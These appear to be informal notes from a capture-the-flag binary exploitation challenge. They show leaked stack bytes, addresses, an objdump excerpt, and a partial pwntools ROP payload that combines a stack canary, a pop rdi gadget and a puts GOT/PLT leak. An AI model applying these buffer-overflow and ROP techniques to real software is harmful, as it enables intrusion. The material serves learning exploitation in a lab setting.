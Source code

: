 yep!
```
b'BBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCs\x03\xd7\x83FV\nDawn'
b's\x03\xd7\x83FV\x00\x00'
0x564683d70373
0x564683d701e9
```

but shouldn't it be 1373 and 11e9? lol nvm it should be ok 


turned out the return address is actually just 0x0373 and 0x01e9 

idk why objdump shows 
```
0000000000011e9 <time_loop>:
    11e9:	f3 0f 1e fa          	endbr64
    11ed:	55                   	push   rbp
    11ee:	48 89 e5 
```
11e9 # even elf.sym['time_loop'] prints this, but it doesnot work 


i just `ni` through my second loop in time_loop, I think i am missing the first argument since it just passed through
I need an argument to get into buffer and write my second payload



# last day 
- pop rdi gadget to leak address 
- tried to return back to the function for more payload to overwrite
- doesn't work probably of the payload is already 80+
- trying passing more days, e.g. 5 days and it didn't work 

```
payload = flat(
    b'B' * 24, # oh wait I 
    p64(canary),
    b'C' * 8,
    p64(base_addr + 0x000000000001403),
    p64(elf.got['puts'] + base_addr),
    p64(elf.plt['puts'] + base_addr),
    p64(base_addr + 0x000000000001403),
    p64(3),
    p64(timeloop_address)
)
```

now I am thinking about utilizing this space
`b'B' * 24`

but would it work?

hmm.


